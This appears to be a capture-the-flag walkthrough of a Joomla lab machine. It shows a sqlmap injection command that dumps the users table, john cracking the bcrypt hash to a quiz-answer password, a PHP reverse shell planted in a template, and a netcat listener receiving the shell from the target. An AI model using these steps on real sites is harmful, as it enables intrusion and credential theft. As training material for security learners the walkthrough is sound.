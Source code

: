 ```shell-session
...
```

Nice! Now let's try dumping the `username` and password columns:
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump -C password
...
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+
```

Ok, so we have a username and a password hash, let's crack it. (Looks like a blowfish hash):
```shell-session
$ john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash.txt
spiderman123     (?)
```

> What is Jonah's cracked password?
> 
> Answer: `spiderman123`

Using this gives us access to the control panel for the joomla CMS on our target. Next we'll be using this to gain an initial foothold...

## Gaining Access

From the user dashboard, navigate to templates menu and try uploading a php reverse shell. It did not work for me so as an alternative, I just simply edited the contents of `index.php` on the default template, i.e. copy-paste the reverse shell code into that. 


Starting a listener on our machine and accessing the payload we uploaded (`index.html` in this case), we get a nice reverse shell:

```shell-session
$ nc -nvlp 4444
# Try requesting TARGET_IP/index.php/
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44852
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:01:38 up  2:02,  0 users,  load average: 0.01, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ 
```


Let's stabilize the shell before we proceed:
```shell-session
bash-4.2$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.2$ ^Z
zsh: suspended  nc -nvlp 4444
$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
bash-4.2$ 
```
Nice! Now we can proceed with the usual:
```shell-session
bash-4.2$ whoami
apache
```